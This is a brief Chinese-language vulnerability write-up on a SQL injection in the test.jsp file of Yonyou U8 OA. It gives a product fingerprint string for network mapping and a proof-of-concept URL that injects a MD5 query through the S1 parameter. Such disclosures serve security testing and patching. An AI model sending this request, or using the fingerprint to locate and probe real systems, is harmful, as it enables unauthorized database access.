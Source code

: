 # 用友 U8 OA test.jsp SQL注入漏洞

## 漏洞描述

用友 U8 OA test.jsp文件存在 SQL注入漏洞，由于与致远OA使用相同的文件，于是存在了同样的漏洞

## 漏洞影响

<a-checkbox checked>用友 U8 OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"用友U8-OA"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/yongyou-11.png)

验证POC

```plain
/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/yongyou-12.png)